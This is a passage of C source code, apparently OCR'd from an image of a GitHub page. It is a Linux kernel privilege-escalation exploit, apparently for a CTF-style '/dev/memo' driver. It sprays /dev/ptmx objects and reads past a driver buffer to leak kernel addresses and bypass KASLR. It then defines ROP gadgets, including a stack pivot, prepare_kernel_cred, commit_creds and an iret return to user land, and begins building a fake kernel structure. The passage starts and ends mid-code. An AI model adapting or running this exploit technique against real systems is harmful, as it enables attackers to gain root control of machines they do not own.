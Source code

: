 ```c  
	execve(args[0], args, envs);  
}

void _start(void)  
{  
	char buffer[0x400];  
	char fake[0x400];  
	int fdm, fdp;

	save_state();

	DEBUG("[*] Spraying pool\n");  
	for(int i = 0; i < 0x10; i++)  
		open("/dev/ptmx", O_RDWR);

	DEBUG("[*] Opening objects\n");  
	if(0 > (fdm = open("/dev/memo", O_RDWR))) {  
		DEBUG("[!] Could not open memo\n");  
		exit(1);  
	}

	if(0 > (fdp = open("/dev/ptmx", O_RDWR))) {  
		DEBUG("[!] Could not open ptmx\n");  
		exit(1);  
	}

	DEBUG("[*] Leak memory\n");  
	lseek(fdm, 0x3FF, SEEK_SET);  
	read(fdm, buffer, sizeof(buffer));  
	//write(1, buffer + 1, sizeof(buffer));

	void *pool = ((void**)(buffer + 1))[7] - 0x38 - 0x400;  
	void *base = ((void**)(buffer + 1))[3]; // rodata 0xffffffff81e65900  
	long  offset = (long)base - 0xffffffff81e65900;

	/* ghetto memset */  
	for(int i = 0; i < sizeof(fake); i++)  
		fake[i] = 0;

#define PIVOT  (void*)(0xffffffff815a98f4llu + offset) // push rcx, pop... rsp  
#define POPRSP (void*)(0xffffffff818aaa78llu + offset) // pop rsp  
#define POPRDI (void*)(0xffffffff8195c042llu + offset) // pop rdi  
#define POPRSI (void*)(0xffffffff81962889llu + offset) // pop rsi  
#define POPRDX (void*)(0xffffffff8173208dllu + offset) // pop rdx  
#define POPRCX (void*)(0xffffffff810631d2llu + offset) // pop rcx  
#define MOVRDI (void*)(0xffffffff81019dcbllu + offset) // mov rdi, rax ; rep
movs

#define PKC    (void*)(0xffffffff8107bb50llu + offset) // prepare_kernel_cred  
#define CK     (void*)(0xffffffff8107b8b0llu + offset) // commit_creds  
#define IRET   (void*)(0xffffffff81a00a45llu + offset) // return to user land

#define LOOP   (void*)(0xffffffff81000218llu + offset) // infinite loop  
#define RET    (void*)(0xffffffff8165f10dllu + offset) // ret for bp

	/* offset */  
	int x = 50;

	for(int i = 0; i < x; i++)  
		((void**)fake)[i] = 0xdeadbeef0000;

	/* Prepare the structure with close */  
	((void**)(buffer + 1))[3] = pool;  
```